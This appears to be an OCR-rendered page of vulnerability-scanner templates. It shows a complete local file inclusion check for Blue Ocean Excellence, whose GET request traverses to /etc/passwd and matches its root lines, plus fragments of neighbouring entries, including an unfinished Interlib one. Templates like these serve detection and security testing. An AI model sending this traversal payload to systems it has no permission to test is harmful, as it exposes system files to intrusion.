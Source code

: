 - part - body
- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Blue Ocean Excellence - Local File Inclusion

## Description

- Blue Ocean Excellence is vulnerable to local file inclusion.
- severity - high
- tags - blue-ocean,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/download.php?file=../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. toor:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Interlib - Local File Inclusion

## Description

- Interlib is vulnerable to local file inclusion.
- severity - high
- tags - interlib,lfi

## Requests
